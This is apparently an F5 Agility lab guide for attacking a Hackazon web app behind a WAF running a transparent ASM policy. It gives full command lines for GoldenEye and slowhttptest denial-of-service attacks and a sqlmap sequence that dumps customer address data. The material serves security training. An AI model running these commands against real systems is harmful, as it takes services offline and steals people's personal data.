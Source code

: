 Task 2: Attack Web App behind transparent ASM policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  ASM policy configured in transparent mode using signature based
       detection

1. Attack via GoldenEye

   a. (Kali) Browse to GoldenEye directory and execute attack.

      i.  # cd /root/Agility/GoldenEye

      ii. # ./goldeneye.py http://hackazon-waf.f5agility.com -d -w 50 -s
          200

   a. Observe impact

      i. Is site available?

   b. (Kali) Stop attack

      i. <Ctrl>+C

2. Attack via SLOWHTTPTEST

   a. (Kali) Browse to slowhttptest directory and execute attack

      i.  # cd /root/Agility/slowhttptest

      ii. # slowhttptest -c 1000 -H -g -o slowloris\_stats\_lab3 -i 10
          -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com -x
          24 -p 3

   b. Observe impact

      i.   Is site available?

      ii.  Review LTM virtual Server statistics

      iii. (Hackazon) Review Server Stats

           1. # top

           2. # free –m

   c. (Kali) Stop Attack

   d. (Optional) Try some other variants of slowhttptest

      i.   # slowhttptest -c 1000 -B -g -o slowloris\_stats\_lab3.1 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow body attack

      ii.  # slowhttptest -c 1000 -R -g -o slowloris\_stats\_lab3.2 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Range attack

      iii. # slowhttptest -c 1000 -X -g -o slowloris\_stats\_lab3.3 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow read

3. Attack via SQLMap

   a. (Kali) Repeat SQL Injection from previous lab

      i.   # cd /root/Agility/sqlmap

      ii.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -- dbs

      iii. # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon --tables

      iv.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address --columns

      v.   # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address -C full\_name,phone,zip
           --dump

   b. Observe impact

      i. Is site available?

4. (Optional) Attack via Metasploit

-  Repeat steps in previous Metasploit lab.

-  Don’t forget to update the URL for WAF!
